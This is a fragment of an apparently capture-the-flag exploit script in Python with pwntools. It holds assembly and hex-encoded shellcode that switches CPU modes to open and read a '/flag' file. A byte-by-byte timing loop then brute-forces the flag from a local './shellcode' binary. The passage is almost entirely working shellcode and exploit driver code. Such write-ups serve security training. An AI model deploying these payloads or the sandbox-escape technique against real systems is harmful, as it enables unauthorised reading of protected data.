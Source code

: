 ```bash
        add rsi,0x13
        add rsi,r10
        push rsi
        retf

        mov esp,0x40000400
        push 0x0067
        push 0x616c662f
        mov ebx,esp
        xor ecx,ecx
        mov edx,0x7
        mov eax,0x5
        int 0x80

        push 0x33
        push 0x40000037
        retf

        mov rdi,rax
        mov rsi,0x40000500
        mov rdx,0x80
        xor rax,rax
        syscall

        push 0
        cmp byte ptr[rsi+{0}],{1}
        jz $-4
        ret 
    '''.format(a,b)
    # shellcode1 = toPrintable(shellcode1)
    # shellcode2 = asm(shellcode2,arch='amd64')
    # shellcode3 = asm(shellcode3,arch='amd64')
    # print "".join("\\x%02x"%ord(_) for _ in asm(shellcode,arch='amd64'))
    shellcode1 = "Sh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M144x8n0R094y4l0p0S0x188K055M4z0x0A3r054q4z0q2H0p0z402Z002l8K4X00"
    shellcode2 = "\x48\xc7\xc7\x00\x00\x00\x40\x48\xc7\xc6\x00\x10\x00\x00\x48\xc7\xc2\x07\x00\x00\x00\x49\xc7\xc2\x22\x00\x00\x00\x49\xb8\xff\xff\xff\xff\x00\x00\x00\x00\x4d\x31\xc9\x48\xc7\xc0\x09\x00\x00\x00\x0f\x05\x48\x89\xfe\x48\x31\xff\x48\xc7\xc2\x00\x10\x00\x00\x48\x31\xc0\x0f\x05\xff\xe6"
    shellcode3 = "\x49\xba\x00\x00\x00\x00\x23\x00\x00\x00\x48\x83\xc6\x13\x4c\x01\xd6\x56\xcb\xbc\x00\x04\x00\x40\x6a\x67\x68\x2f\x66\x6c\x61\x89\xe3\x31\xc9\xba\x07\x00\x00\x00\xb8\x05\x00\x00\x00\xcd\x80\x6a\x33\x68\x37\x00\x00\x40\xcb\x48\x89\xc7\x48\xc7\xc6\x00\x05\x00\x40\x48\xc7\xc2\x80\x00\x00\x00\x48\x31\xc0\x0f\x05\x6a\x00"
    shellcode3 += asm('cmp byte ptr[rsi+{0}],{1};jz $-3;ret'.format(a,b) if a == 0 else 'cmp byte ptr[rsi+{0}],{1};jz $-4;ret'.format(a,b),arch='amd64')
    p.sendline(shellcode1)
    p.sendline(shellcode2)
    # raw_input()
    p.sendline(shellcode3)
    try:
        p.recv(timeout = 2)
    except:
        p.close()
        return 0
    else:
        return 1
def main():
    flag = [" " for _ in range(0x30)]
    for i in range(0,100):
        # for char in "{}1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
        for char in range(0x20,0x7e+1):
            # char = ord(char)
            p = process("./shellcode")
            if exp(p,i,char):
```